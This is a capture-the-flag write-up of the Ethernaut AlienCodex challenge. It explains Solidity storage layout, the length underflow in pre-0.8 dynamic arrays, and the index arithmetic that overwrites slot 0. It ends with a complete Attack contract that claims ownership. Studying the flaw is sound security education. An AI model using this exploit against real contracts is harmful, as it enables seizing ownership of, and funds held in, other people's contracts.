

## Challenge
### Prompt
You've uncovered an Alien contract. Claim ownership to complete the level.
Things that might help
Understanding how array storage works
Understanding ABI specifications
Using a very underhanded approach
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
## Background

---

The challenge contract inherits `Ownable`. In `Ownable-05.sol`, `_owner` is declared first as a state variable.
```solidity
contract Ownable {
    address private _owner;

    constructor() internal {
        _owner = msg.sender;
    }

    function owner() public view returns (address) {
        return _owner;
    }
}
```
With inheritance, the base contract's state variables are laid out first, followed by the child contract's. For example:
```solidity
contract A {
    uint256 public a;   // slot 0
}

contract B is A {
    uint256 public b;   // slot 1
}

contract C is B {
    uint256 public c;   // slot 2
}
```
In `C`, slots are assigned in the order `a`, `b`, `c`. In `AlienCodex` too, `Ownable`'s `_owner` comes first.
An `address` is 20 bytes and a `bool` is 1 byte, so both can be packed together into a single 32-byte slot. Comparing slot 0 before and after `makeContact()` shows `contact` changing within slot 0, not slot 1.
```javascript
await web3.eth.getStorageAt("0x1a9eDfD05c3687AeD6Bb36B86C657c1c8307fbc3", 0)
// '0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'

await contract.makeContact()

await web3.eth.getStorageAt("0x1a9eDfD05c3687AeD6Bb36B86C657c1c8307fbc3", 0)
// '0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd11'
```
So the storage layout of this challenge is:
```plain text
slot 0: contact + _owner
slot 1: codex.length
keccak256(abi.encode(1)) + i: codex[i]
```

---

A dynamic array does not store the array length and the actual elements at the same location. If the array variable is in slot `p`, slot `p` stores the array length, and the actual elements are stored starting from the next location.
```solidity
arr[i] storage slot = keccak256(abi.encode(p)) + i (mod 2^256)
```
The `mod 2^256` is there because EVM storage slot indices live in the `uint256` range. So if you can make the array length very large, you can adjust `i` to overwrite any slot, not just the original array region.
In this challenge `codex` is in slot 1, so `codex[i]` is stored at:
$$
keccak256(abi.encode(1)) + i \equiv targetSlot \pmod {2^{256}}
$$
What we want to overwrite is slot 0, which contains `_owner`. So we need an `i` that satisfies:
$$
keccak256(abi.encode(1)) + i \equiv 0 \pmod {2^{256}}
$$
That `i` is:
$$
i = 2^{256} - uint256(keccak256(abi.encode(1)))
$$
In Solidity this is `type(uint256).max - uint256(keccak256(abi.encode(1))) + 1`.

---

The challenge contract uses `pragma solidity ^0.5.0`. Before Solidity 0.8, arithmetic overflow/underflow does not automatically revert.
Calling `retract()` while `codex.length` is 0 runs the following code.
```solidity
codex.length--;
```
Subtracting 1 from 0 does not revert; the value wraps around within the `uint256` range. As a result, `codex.length` becomes $2^{256}-1$.
Now `revise(i, _content)` can use any `uint256` index, so the index computed above can overwrite slot 0.
## Challenge code analysis

---

```solidity
modifier contacted() {
    assert(contact);
    _;
}

function makeContact() public {
    contact = true;
}
```
`record`, `retract`, and `revise` all have to pass `contacted`. So you first have to call `makeContact()` to set `contact` to `true`.
Anyone can call `makeContact()`, so this restriction does not work as an access check. The first step of the exploit is to call it once.

---

```solidity
function retract() public contacted {
    codex.length--;
}
```
`codex` starts as an empty array. Calling `retract()` right after `makeContact()` underflows `codex.length` from 0 to $2^{256}-1$.
This value is stored in slot 1. Reading slot 1 after `retract()` shows the maximum `uint256` value.
```javascript
await contract.retract()

await web3.eth.getStorageAt("0x1a9eDfD05c3687AeD6Bb36B86C657c1c8307fbc3", 1)
// '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```
Since the array length is at its maximum, `revise()`'s index check is effectively meaningless.

---

```solidity
function revise(uint256 i, bytes32 _content) public contacted {
    codex[i] = _content;
}
```
`revise()` writes `_content` directly to `codex[i]`. Since the location of a dynamic array element is `keccak256(abi.encode(1)) + i`, choosing `i` well lets us write `_content` to slot 0.
The lower 20 bytes of slot 0 hold `_owner`. So if we make the lower 20 bytes of `_content` our address, `owner()` returns our address.
```solidity
bytes32 myaddr = bytes32(uint256(uint160(msg.sender)));
```
Instead of converting `address` directly to `bytes32`, convert in the order `uint160 -> uint256 -> bytes32`. This way the address value lands in the lower 20 bytes of the 32-byte value.
## Solution
First, call `makeContact()` to pass the `contacted` restriction. Then, in the empty-array state, call `retract()` to make `codex.length` $2^{256}-1$.
Now compute the index that makes `codex[i]` point to slot 0.
```solidity
uint256 i = type(uint256).max - uint256(keccak256(abi.encode(1))) + 1;
```
Finally, call `revise(i, myaddr)` to overwrite the `_owner` part of slot 0 with our address. Since the target ABI is known, we define an interface and call `makeContact`, `retract`, and `revise` in order.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlien {
    function makeContact() external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract Attack {
    IAlien alien;

    constructor(address _addr) {
        alien = IAlien(_addr);
    }

    function attack() public {
        alien.makeContact();
        alien.retract();
        uint256 i = type(uint256).max - uint256(keccak256(abi.encode(1))) + 1;
        bytes32 myaddr = bytes32(uint256(uint160(msg.sender)));
        alien.revise(i, myaddr);
    }
}
```

